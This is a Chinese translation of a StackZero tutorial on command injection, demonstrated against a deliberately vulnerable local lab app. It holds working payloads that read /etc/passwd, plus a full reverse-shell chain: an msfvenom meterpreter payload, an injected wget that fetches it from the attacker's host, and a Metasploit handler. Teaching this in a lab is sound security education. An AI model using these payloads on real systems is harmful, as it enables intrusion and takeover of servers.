









# 什么是命令注入以及如何利用它— StackZero

> 原文：<https://infosecwriteups.com/what-is-command-injection-and-how-to-exploit-it-stackzero-ac7643bc492?source=collection_archive---------0----------------------->



# 命令注入简介

大家好，在这篇文章中，我想通过一个非常简单的实例向大家介绍命令注入。
我还建议您阅读目标应用程序的代码，以便更好地理解，但现在让我们进入要点！

命令注入是一种利用软件应用程序中的安全缺陷的代码注入技术。
该漏洞存在于应用程序传递不安全的用户提供的数据(表单、cookies、HTTP 头等)时。)到系统外壳以供执行。
攻击者可以利用该漏洞在主机操作系统上执行任意外壳命令。
命令注入之所以如此危险，是因为攻击者可以执行任何系统命令，而不仅仅是应用程序设计运行的命令。这给了攻击者对系统的完全控制，他可以用它来做任何事情；从删除关键文件到通过系统崩溃发起拒绝服务攻击。命令注入通常用于利用允许用户通过 HTTP GET 或 POST 请求提交数据的 web 应用程序。但是，任何使用不安全的用户提供的数据执行系统命令的应用程序都容易受到攻击。

为了防止命令注入攻击，千万不要将未经整理的用户提供的数据传递给系统 shell，这一点很重要。开发人员应该以这样一种方式设计应用程序，即数据在被传递给系统命令之前总是被验证和转义。

# PHP 函数面临命令注入攻击的风险

由于 PHP 在网络上无处不在，我想列出一些每个开发者都应该注意的关键功能:

*   它执行应用程序作为参数传递的命令。
*   `[shell_exec()](https://www.php.net/manual/en/function.shell-exec.php)`执行命令并以字符串形式返回输出。
*   `[system()](https://www.php.net/manual/en/function.system)`执行外部命令，然后显示输出
*   `[passthru()](https://www.php.net/manual/en/function.passthru)`执行外部命令，然后显示原始输出

PHP 还提供了两个提供某种净化的函数，但是它们并不总是安全的:

*   `[escapeshellcmd()](https://www.php.net/manual/en/function.escapeshellcmd.php)`在应用程序将字符串传递给系统函数之前，它对该字符串的元字符进行转义。
*   在应用程序将字符串用作 shell 命令之前，对其进行转义。

正如我们所看到的，这可能很难防止，所以建议尽可能避免在 web 应用程序中使用操作系统命令。

# 漏洞的类型

攻击者可以通过命令注入攻击来利用一些漏洞，让我们来看看其中的一些:

*   **任意文件上传**是将任何扩展名的任何类型的文件上传到 web 应用程序的能力。
*   **服务器端模板注入(SSTI)** 当 web 应用程序使用用户输入生成网页时，攻击者可以欺骗应用程序运行恶意命令。
*   **XML 外部实体注入(XXE)** 是在解析 XML 过程中出现的输入验证漏洞。这可能导致命令注入攻击。
*   **不安全的反序列化**通常服务器从用户那里接收序列化的数据。如果未对它们进行适当的清理，攻击者可以利用漏洞并执行一些命令。
*   **任意命令注入**是一个安全漏洞，允许攻击者通过操纵应用程序上的输入字段，在服务器上注入并执行任意命令。

# 练习前的准备工作

现在是时候更好地理解命令注入是如何工作的了，为了做到这一点，我们将利用任意命令注入漏洞。
为了做到这一点，我认为最简单的方法是利用 [SDWA](https://github.com/StackZeroSec/sdwa) 正如我们在 [SQLi 教程](https://medium.com/bugbountywriteup/learn-sql-injection-in-practice-by-hacking-vulnerable-application-stackzero-ef7931c72aec)和 [XSS 利用文章](https://medium.com/@stackzero/the-terrifying-world-of-cross-site-scripting-xss-part-2-stackzero-cc7fa7e8dcbb)中所做的那样。

在开始我们的旅程之前，我们需要一些东西:

现在我们已经完成了所有工作，所以只需运行应用程序:

```
flask run
```

然后在地址:`[http://localhost:5000](http://localhost:5000)`打开浏览器



# 实践中的命令注入

一旦我们加入“Cmdi”部分，如果我们尝试检查“hackthebox ”,这就是结果。



对于任意命令注入漏洞的存在，我们没有任何线索。无论如何，我们可以猜测，并且知道在基于 Unix 的系统中分号分隔两个命令，我们可以想象如果漏洞存在，我们会有这样的情况:

```
cat <USERINPUT>
```

那么让我们看看如果我们像这样输入会发生什么: `; echo "Hello!"`



那就是命令注入漏洞存在的证明！

显然我们到目前为止所做的都是无用的，但是让我们做一些更有趣的事情，让我们看看系统中的所有用户。

在做任何事情之前，我们可以检查服务器操作系统(很可能是 Linux 服务器)，所以尝试键入:

```
; cat /etc/os-release
```

这就是结果



所以输出清楚地告诉我们这是一台 Kali Linux 机器(正如我们已经知道的)。
我们可以做的另一件好事是通过键入以下命令列出机器中的所有用户:

```
; cat /etc/passwd
```

结果是一个很长的用户列表:



# 命令注入:如何运行反向 shell

这种方法有两个主要问题:

*   由于没有交互式控件，您会受到一些限制
*   在现实世界中，这种漏洞很少显示结果，而是“盲目的”

在这一节中，我们可以看到一些更有趣的东西，我们到目前为止看到的似乎有点有限，可能你想看看如何获得目标系统的控制权！

我会告诉你怎么做！

# 运行反向 shell

运行一个反向 shell 可以给你很大的动力，我认为一个 Meterpreter 可以舒服得多，所以作为攻击者让我们准备好我们的工具。

首先，我们需要在 kali 攻击者机器中生成我们的 python 有效负载

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4567 -f raw -o shell-x86.py
```

所以我们告诉有效载荷，我们的受害者必须在端口 *4567* 连接到 IP *10.0.2.15(我们攻击者的目标 IP)* 。

现在我们需要交付我们的有效负载，所以让我们在有效负载的同一个目录中打开一个 HTTP 服务器，让我们简单地用 python 来做:

```
python -m http.server
```

之后，我们在地址:`[http://10.0.2.15:8000](http://10.0.2.15:8000.)` [有一个运行的服务器绑定。](http://10.0.2.15:8000.)

让我们跳到浏览器上，通过在输入字段中键入以下内容，让目标服务器下载我们的有效负载:

```
; wget [http://10.0.2.15:8000/shell-x86.py](http://10.0.2.15:8000/shell-x86.py)
```

如图所示:



现在负载应该在受害者服务器上，下一步是在攻击者机器上打开一个监听器:

首先，让我们在安静模式下运行 Metasploit:

```
msfconsole -q
```

其次，我们需要设置处理程序及其参数，我将在一个块中列出所有命令:

```
use exploit/multi/handler 
set PAYLOAD python/meterpreter/reverse_tcp 
set LHOST 10.0.2.15 
set LPORT 4567 run
```

正如我们在下图中看到的，监听器是活动的:



最后，我们准备运行有效负载，在我们易受攻击的应用程序中，键入:

```
; python shell-x86.py
```

如果我们看着我们的听众，我们会高兴，因为我们在里面！



# 结论

在本文中，我只是触及了表面，但我希望我能让您更清楚地了解这个漏洞有多危险。我希望你喜欢它，我真的很期待写下一部。

*原载于 2022 年 8 月 7 日 https://www.stackzero.net*[](https://www.stackzero.net/command-injection/)**。**

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！**